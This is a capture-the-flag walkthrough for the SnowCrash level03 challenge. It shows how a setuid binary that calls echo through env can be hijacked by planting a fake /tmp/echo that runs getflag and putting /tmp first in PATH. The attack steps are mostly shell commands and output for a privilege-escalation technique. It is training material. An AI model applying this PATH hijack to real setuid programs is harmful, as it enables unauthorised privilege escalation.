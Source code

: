 # SnowCrash Level03 Guide
This guide will walk you through the process of finding the password for the `flag03` user.

## Procedure:

1. **Examine files in the current directory**
   
We start by displaying the files and folders of the current directory.
```bash
ls -la
```
We find a file named level03 with the following permissions:
```bash
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
```
The file is executable by the owner, the group, and others, so by everyone.
Additionally, the file is executed with the owner’s and group's rights (setuid, setgid).

2. **Execute level03**

We execute the file level03.
```bash
./level03
```
The program displays the following output:
```bash
Exploit me
```

3. **Analyze level03**

We look at where the message comes from.
```bash
strings level03 | grep "Exploit"
```
Returns
```bash
/usr/bin/env echo Exploit me
```
The program uses the `echo` command to display the message.  
We are going to execute the getflag command instead of echo.  
For this, we will create a file named echo that executes getflag when called.

5. **Create the echo file**

If we don't use the `/tmp` folder, we don't have the permissions to execute the following:
```bash
level03@SnowCrash:~$ echo getflag > echo
bash: echo: Permission denied
```
So we run:
```bash
echo getflag > /tmp/echo && chmod +x /tmp/echo
```
The `chmod` is used to give the `execute` rights to the file `/tmp/echo`.

8. **Add /tmp to the PATH**

Now, we need to add /tmp to the PATH so that the level03 program executes the echo file in /tmp instead of the one in /usr/bin/env.
```bash
export PATH=/tmp:$PATH && echo $PATH
```
We add `/tmp` at the beginning of the PATH so that the level03 program executes the echo file in /tmp before the one in /usr/bin/env.
We also verify that /tmp has been added to the PATH.


9. **Exploit level03**

Execute the level03 program.
```bash
./level03
```
It now prints the token !